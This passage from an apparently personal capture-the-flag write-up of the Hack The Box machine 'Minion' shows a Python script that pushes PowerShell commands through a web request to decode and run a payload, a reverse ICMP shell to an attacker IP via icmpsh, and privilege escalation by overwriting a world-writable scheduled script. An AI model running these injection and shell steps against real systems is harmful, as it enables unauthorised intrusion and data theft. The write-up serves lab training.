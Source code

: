 
######################################################
print 'Decoding \\temp\s.b64 and writing \\temp\s.ps1'
send_request(url1 + urllib.quote(url2) + urllib.quote("powershell -c \"[system.text.encoding]::ASCII.getstring([system.convert]::frombase64string((gc \\temp\s.b64)))|out-file \\temp\s.ps1\""))

#############################
print 'Executing \\temp\s.ps1'
send_request(url1 + urllib.quote(url2) + urllib.quote("powershell -c \\temp\s.ps1"))
{% endhighlight %}

<b>Note:</b> For the base64 decoding, I could have used certutil utility as well.

On my attacking box, I launched the icmpsh with <code>icmpsh_m.py MY_ATTACK_IP 10.10.10.57</code> and executed the Python script. After a while I got a Powershell command prompt:

{% highlight bash %}
root@kali:~/icmpsh-master# ./icmpsh_m.py 10.10.17.241 10.10.10.57
Windows PowerShell running as user MINION$ on MINION
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool

PS C:\windows\system32\inetsrv>
{% endhighlight %}

## System Enumeration

I quickly noticed the user iis apppool\defaultapppool was not having all the permissions that I needed. Listing the directory \users, I could see two users: Administrator and decoder.minion. I then found the directory c:\sysadmscripts containing the files c.ps1 and del_logs.bat. Reading the files' content, I learned the c.ps1 Powershell script was most likely being ran each 5 minutes. From the del_logs.bat I saw there was a log file being written at \windows\temp\log.txt. I could see the output written in each 5 minutes. I also noticed that c.ps1 was writable by everyone, so my low privilege user could write into it. I then executed the following command to overwrite the file, so that its next execution would give me the contents of the directory \users\decoder.minion\Desktop:

{% highlight powershell %}
write-output "get-childitem \users\decoder.minion\Desktop | out-file \temp\log.txt" | out-file \sysadmscripts\c.ps1
{% endhighlight %}

After 5 minutes, the content of \temp\log.txt was:

{% highlight powershell %}
PS C:\> cat \temp\log.txt
  Directory: C:\users\decoder.minion\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---          9/4/2017   7:19 PM     103297 backup.zip                        
-a---         8/25/2017  11:09 AM         33 user.txt       
{% endhighlight %}

Following the same process, I copied both files to \temp, where I would have permissions to read them:
